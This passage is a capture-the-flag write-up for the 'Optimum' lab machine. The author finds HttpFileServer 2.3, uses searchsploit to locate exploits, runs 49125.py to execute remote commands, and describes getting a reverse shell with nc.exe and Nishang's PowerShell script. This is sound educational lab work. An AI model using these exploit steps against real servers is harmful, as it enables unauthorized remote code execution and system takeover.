 After having identified the service (**HttpFileServer**), with `searchsploit` I search for vulnerabilities for the version of the service and find an exploit written in **Python** available for download on my machine. If I analyze the script to perform a manual exploitaition and avoid downloading it, I can not get responses from the browser and neither from console if I use `curl`, I would have to spend more time to find the error, it may be the special characters or the **URL**, but I will move forward. If I try to run the script I am not able to execute commands remotely, maybe I should expand my search with `searchsploit`.

> **[HFS](https://www.pcworld.com/article/486454/hfs_http_file_server.html){:target="_blank"}** is a tool that allows you to set up file sharing from your home computer, for your friends, co-workers, or the world, with considerable ease–if your **Internet** connection, router, and firewall are all properly configured.

```bash
searchsploit HttpFileServer 2.3
searchsploit -x 49125.py

# view-source:http://10.129.45.159/?search=...
curl -s -X GET 'http://10.129.45.159/?search=...'

searchsploit -m 49125.py
mv 49125.py hfs_exploit.py
python3 hfs_exploit.py
python3 hfs_exploit.py 10.129.45.159 80 "whoami"

tcpdump -i tun0 icmp -n

python3 hfs_exploit.py 10.129.45.159 80 "ping 10.10.14.84"
```

<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_04.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_05.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_06.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_07.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_08.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

There are other exploits available in **[Exploit Database](https://www.exploit-db.com/){:target="_blank"}** that I can try, the second one I'm going to test is also written in **Python** and only some customizations need to be made for it to work properly. It only asks me to set up a local server where the `nc.exe` binary can be accessed, this way the script exploits the vulnerability and executes a command remotely to send a **Reverse Shell** to my machine. I only have to open port **443** with `nc` and wait for the connection request. After accessing the machine I will get a more stable shell using a OneLine and **[Nishang's Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang){:target="_blank"}** script.
